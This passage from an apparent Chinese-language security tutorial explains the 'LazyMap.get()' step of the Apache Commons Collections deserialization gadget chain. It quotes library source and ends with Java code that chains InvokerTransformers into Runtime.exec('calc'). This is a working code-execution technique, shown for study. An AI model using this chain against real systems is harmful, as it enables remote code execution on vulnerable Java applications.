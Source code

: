 
* 第五层`org.apache.commons.collections.map.LazyMap.get()`

查看`LazyMap`类,`LazyMap`是只要执行 get 方法就会调用**transform**，

```java
public Object get(Object key) {
        // create value for key if key is not currently in the map
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
        return map.get(key);
    }
```

这里可以看出，如果`factory`改为上层代码的`chainedTransformer`就可以执行命令了

但是这里有个if判断，大概的意思是，如果map里面有`key`,直接返回，如果没有则进入判断，把value补上

其中的`this.factory`对象，可以通过调用decorate(Map map, Transformer factory)方法，进而调用LazyMap(Map map, Factory factory)构造方法进行控制

```java
public static Map decorate(Map map, Transformer factory) {
        return new LazyMap(map, factory);
    }
```

```java
protected LazyMap(Map map, Factory factory) {
        super(map);
        if (factory == null) {
            throw new IllegalArgumentException("Factory must not be null");
        }
        this.factory = FactoryTransformer.getInstance(factory);
    }
```



所以构造代码如下：

```java
Transformer[] transformers = new Transformer[]{
        new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime", null}),
        new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null, null}),
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);


HashMap innermap = new HashMap();
LazyMap map = (LazyMap)LazyMap.decorate(innermap,chainedTransformer);
map.get(Runtime.class);
```
